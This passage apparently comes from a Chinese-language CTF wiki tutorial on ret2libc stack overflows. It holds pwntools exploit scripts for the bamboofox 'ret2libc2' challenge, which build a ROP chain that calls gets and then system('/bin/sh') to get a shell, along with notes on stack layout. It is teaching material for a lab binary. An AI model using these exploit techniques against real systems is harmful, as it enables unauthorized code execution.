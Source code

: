 ```python
    system,
    b"B" * 4, # ret addr for system
    bin_sh, # arg for system
)

p.sendlineafter("RET2LIBC >_<\n", payload)
p.interactive()
```

这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以 "BBBB" 作为虚假的地址，其后参数对应的参数内容。

这个例子相对来说简单，同时提供了 system 地址与 /bin/sh 的地址，但是大多数程序并不会有这么好的情况。

#### 例2

这里以 bamboofox 中的 ret2libc2 为例  

点击下载: [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2)

该题目与例 1 基本一致，只不过不再出现 /bin/sh 字符串，所以此次需要我们自己来读取字符串，所以我们需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。由于漏洞与上述一致，这里就不在多说，具体的 exp 如下

```python
#!/usr/bin/env python3
from pwn import *

#--------setup--------#

context(arch="i386", os="linux")

elf = ELF("ret2libc2")
p = elf.process()

#--------ret2libc--------#

offset = 112
gets_plt = elf.plt["gets"]
# ROPgadget --binary ret2libc2 --only "ret"
ret = 0x08048426
buf2 = 0x0804A080
# ROPgadget --binary ret2libc2 --only "pop|ret"
pop_ebx = 0x0804843d
system_plt = elf.plt["system"]
buf2 = 0x0804A080

# step 1: call gets(buf2) and input /bin/sh
# step 2: call system("/bin/sh")
payload = flat(
    b"A" * offset,
    gets_plt,
    pop_ebx, # ret addr for gets
    buf2, # arg for gets
    system_plt,
    b"B" * 4, # ret addr for system
    buf2, # arg for system
)
"""
Note that pop_ebx is used to pop buf2 off the stack
when gets(buf2) returns. After that, system_plt is on
the top of the stack, so the ROP chain continues.
This is a trick used in ROP, commonly referred as
"preparing the stack" for system("/bin/sh").
"""

p.sendlineafter("What do you think ?", payload)
```
